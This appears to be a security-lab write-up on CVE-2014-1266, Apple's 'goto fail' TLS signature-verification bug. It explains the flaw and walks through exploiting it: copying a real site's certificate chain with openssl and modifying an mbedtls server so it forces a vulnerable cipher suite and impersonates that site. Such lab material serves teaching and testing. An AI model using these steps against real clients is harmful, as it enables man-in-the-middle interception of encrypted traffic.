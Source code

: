 # CVE_2014-1266

### Diffie-Hellman, x509 verification and chain of trust

As part of a request sent over TLS, before sending the request, the client will make sure that the certificate is valid and is valid for the current hostname. The client also needs to ensure that the server has access to the private key that matches the public key available in the certificate. This can be done in multiple ways:

* By encrypting the communication key with the public key. The server will only be able to decrypt the key (and therefore keep the communication going) if it has access to the private key associated with the public key in the certificate.
* By getting the server to sign some data with the private key associated with the public key available in the certificate.

### Vulnerability

The vulnerability CVE-2014-1266 is a vulnerability impacting the iOS  and OSX TLS stack. The issue was caused by a duplicate line inside the  source code  (http://opensource.apple.com/source/Security/Security-55471/libsecurity_ssl/lib/sslKeyExchange.c?txt)

```c
if ((err = SSLHashSHA1.update(&hashCtx, &signedParams)) != 0)
  goto fail;
  goto fail;
```

This will cause the code to always go to `fail` when  computing the SHA1 to ensure that the signature is correct.  Unfortunately, this causes the client to accept any private key as part  of the key exchange. The variable `err` contains a successful value since it's only computing a hash, therefore the signature  verification is bypassed. Even if the private key presented by the  server does not match the public key available in the certificate, the  application will accept it. To exploit this issue we will need our  malicious server to force the client to use one of the vulnerable  cipher. 

### Exploiting this issue

To exploit this issue, two steps are required:

- Get the certificate from the legitimate server and generating a private key.
- Setting up a TLS server that will present the legitimate certificate chain with an invalid private key. This server will also need to force  the cipher suite to ensure the client uses the vulnerable one.

### Download Legitimate server Certificate

* from tcpdump we get that the client is visiting `pentesterlab.com` so we'll download its certificate chain.

  ```bash
  $ openssl s_client -connect pentesterlab.com:443 -showcerts > myca.pem
  ```

* Now from `myca.pem` we will remove all additional lines between `---END---` of one certificate and `---BEGIN---` of another certificate.

### Setting Up the Server

* To force the cipher suite used by the client, your server needs to  tell the client that it only supports the vulnerable algorithm.  Thankfully, an example for this is available in `programs/ssl/ssl_server2.c`:

  ```c
  [...]
      mbedtls_ssl_conf_ciphersuites( &conf, opt.force_ciphersuite );
  [...]
  ```

  We can just use this and add it to  our `ssl_server.c`.

  

  You can define your own `force_ciphersuite` in the first lines of the `main` function as:

  ```c
  [...]
    int force_ciphersuite[2];
  [...]
  ```

  We just need to find the right value to force one of the vulnerable cipher suites. For example, we can use `TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA` (`0xC014`):

  ```c
    force_ciphersuite[0] = 0xC014;
  ```

  If you are not familiar with C programming. These additions have to be done in the first lines of the `int main( void )` function. 

  And finally, add the line from `ssl_server2.c` (without the `opt.`):

  ```c
  [...]
    mbedtls_ssl_conf_ciphersuites( &conf, force_ciphersuite );
  [...]
  ```

* Once you performed these modifications, you need to recompile the code:

  ```bash
  $ make
  ```

  You should now be able to present your malicious chain to legitimate clients by running the server:

  ```bash
  $ ./programs/ssl/ssl_server
  ```